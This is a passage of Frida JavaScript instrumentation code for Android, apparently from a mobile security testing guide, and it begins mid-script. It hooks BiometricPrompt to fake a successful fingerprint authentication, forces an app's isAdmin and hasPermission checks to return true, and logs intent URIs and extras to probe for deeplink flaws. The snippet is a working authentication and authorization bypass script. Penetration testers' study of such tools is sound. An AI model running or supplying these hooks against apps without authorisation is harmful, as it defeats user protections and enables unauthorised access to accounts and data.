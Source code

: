 ```javascript
    
    // Bypass biometric authentication
    var BiometricPrompt = Java.use("androidx.biometric.BiometricPrompt");
    BiometricPrompt.authenticate.overload().implementation = function() {
        console.log("[+] Biometric authentication bypassed");
        
        // Get the authentication callback
        var callback = this.mAuthenticationCallback.value;
        
        // Create a successful authentication result
        var AuthenticationResult = Java.use("androidx.biometric.BiometricPrompt$AuthenticationResult");
        var CryptoObject = Java.use("androidx.biometric.BiometricPrompt$CryptoObject");
        var crypto = CryptoObject.$new(null);
        var result = AuthenticationResult.$new(crypto, null, 0);
        
        // Call the success method
        callback.onAuthenticationSucceeded(result);
        
        return;
    };
    
    // Test for authorization checks
    var UserManager = Java.use("com.example.app.UserManager");
    UserManager.isAdmin.implementation = function() {
        console.log("[+] Admin check bypassed");
        return true;
    };
    
    UserManager.hasPermission.implementation = function(permission) {
        console.log("[+] Permission check bypassed for: " + permission);
        return true;
    };
    
    // Monitor intent handling for deeplink vulnerabilities
    var Intent = Java.use("android.content.Intent");
    Intent.parseUri.implementation = function(uri, flags) {
        console.log("[+] Intent parsed from URI: " + uri);
        return this.parseUri(uri, flags);
    };
    
    var Activity = Java.use("android.app.Activity");
    Activity.startActivity.overload("android.content.Intent").implementation = function(intent) {
        console.log("[+] Activity started with intent");
        console.log("[+] Action: " + intent.getAction());
        console.log("[+] Data: " + intent.getDataString());
        
        var extras = intent.getExtras();
        if (extras) {
            var keys = extras.keySet();
            var iterator = keys.iterator();
            while (iterator.hasNext()) {
                var key = iterator.next();
                console.log("[+] Extra: " + key + " = " + extras.get(key));
            }
        }
        
        return this.startActivity(intent);
    };
    
    console.log("[*] Authentication and authorization testing complete");
});
```